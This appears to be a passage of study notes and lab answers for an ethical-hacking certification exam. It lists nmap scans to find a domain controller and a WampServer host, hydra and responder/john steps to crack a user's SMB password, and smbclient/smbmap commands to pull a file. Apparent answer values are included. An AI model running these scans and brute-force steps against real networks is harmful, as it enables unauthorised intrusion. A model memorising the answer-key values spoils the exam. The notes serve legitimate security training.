 # questions3

1.Perform extensive scan of the target network and identify the FQDN of the Domain Controller.

```bash
nmap -T4 -A -p 389,636,3268,3269 192.168.x.x/2x
or
nmap -p 389 --script ldap-rootdse <target_IP>
# AdminTeam.ECCEH.com
nmap -p389 -sV 10.10.1.13/24
Go to 10.10.1.22 server and login and go to this pc then right click and go down click on rename this pc
advanced
```

![Untitled](questions3%20404bc54bbf61422f900a279cfddc10d8/Untitled.png)

2.While investigating an attack, you found that a Windows web development environment was exploited to gain access to the system. Perform extensive scanning and service enumeration of the target networks and identify the IP address of the server running WampServer.

```bash
# look for ports 80 or 8080
# 172.20.0.16
nmap -sV -A -p 80 10.10.1.13/24
nmap -T4 -A 192.168.x.x/2x
OR
nmap -T4 -A -p 80,443 192.168.x.x/2x
Look for specific banners or headers that indicate the presence of WampServer. 
This may include strings like "WampServer" or "Apache" in HTTP response headers 
or a the existense of MySql service
```

3.Identify a machine with SMB service enabled in the 192.168.0.0/24 subnet. Crack the SMB credentials for user Henry and obtain Sniff.txt file containing an encoded secret. Decrypt the encoded secret and enter the decrpted text as the answer. Note: Use Henry's password to decode the text.

```bash
# search for port 139 or 445, use responder to get the NTLM credential, use john to crack the password
# nvkwj2387
3. How to exploit smb
nmap -T4 -A -p 139,445 192.168.x.x/2x
OR
nmap -p 139,445 -sV 192.168.x.x/2x

Brute force SMB with hydra
hydra -l USER_NAME -P password_file TARGET_IP smb

Once SMB credentials are obtained, you can use tools like smbclient 
to connect to the SMB share and retrieve files.
smbclient //target_ip/ -U USER_NAME 
get file.txt
OR 
smbmap -u USER_NAME -p 'PASSWORD' -H TARGET_IP --download 'C$\file.txt'

Decrypt Encoded File:
Use bctextencoder or
snow.exe -C -p “password” file.txt

---
Scan the entire subnet for open smb ports. You can use the wordlist available on the desktop on Parrot
os. Use Hydra to crack it. The password for the encoded file is the same. If the file contains a hash, try to
```
